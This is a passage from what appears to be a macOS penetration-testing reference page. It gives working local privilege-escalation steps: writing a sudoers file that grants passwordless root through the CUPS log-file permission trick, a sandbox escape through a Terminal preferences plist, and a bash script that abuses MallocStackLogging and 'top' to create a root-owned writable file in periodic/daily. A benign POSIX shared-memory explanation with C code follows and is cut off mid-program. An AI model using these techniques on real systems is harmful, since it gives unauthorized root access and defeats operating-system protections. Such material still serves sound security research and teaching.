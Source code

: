 Then, write in `/etc/sudoers.d/lpe` the needed config to escalate privileges like `%staff ALL=(ALL) NOPASSWD:ALL`.

Then, modify the file `/etc/cups/cups-files.conf` again indicating `LogFilePerm 700` so the new sudoers file becomes valid invoking `cupsctl`.

### Sandbox Escape

It's posisble to escape the macOS sandbox with a FS arbitrary write. For some examples check the page [[../../../../macos-auto-start-locations.md|macOS Auto Start]] but a common one is to write a Terminal preferences file in `~/Library/Preferences/com.apple.Terminal.plist` that executes a command at startup and call it using `open`.

## Generate writable files as other users

This will generate a file that belongs to root that is writable by me ([[https://github.com/gergelykalman/brew-lpe-via-periodic/blob/main/brew_lpe.sh)|**code from here**]]. This might also work as privesc:

```bash
DIRNAME=/usr/local/etc/periodic/daily

mkdir -p "$DIRNAME"
chmod +a "$(whoami) allow read,write,append,execute,readattr,writeattr,readextattr,writeextattr,chown,delete,writesecurity,readsecurity,list,search,add_file,add_subdirectory,delete_child,file_inherit,directory_inherit," "$DIRNAME"

MallocStackLogging=1 MallocStackLoggingDirectory=$DIRNAME MallocStackLoggingDontDeleteStackLogFile=1 top invalidparametername

FILENAME=$(ls "$DIRNAME")
echo $FILENAME
```
```
## POSIX Shared Memory

**POSIX shared memory** allows processes in POSIX-compliant operating systems to access a common memory area, facilitating faster communication compared to other inter-process communication methods. It involves creating or opening a shared memory object with `shm_open()`, setting its size with `ftruncate()`, and mapping it into the process's address space using `mmap()`. Processes can then directly read from and write to this memory area. To manage concurrent access and prevent data corruption, synchronization mechanisms such as mutexes or semaphores are often used. Finally, processes unmap and close the shared memory with `munmap()` and `close()`, and optionally remove the memory object with `shm_unlink()`. This system is especially effective for efficient, fast IPC in environments where multiple processes need to access shared data rapidly.


**Producer Code Example**


```c
// gcc producer.c -o producer -lrt
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    const char *name = "/my_shared_memory";
    const int SIZE = 4096; // Size of the shared memory object

    // Create the shared memory object
    int shm_fd = shm_open(name, O_CREAT | O_RDWR, 0666);
```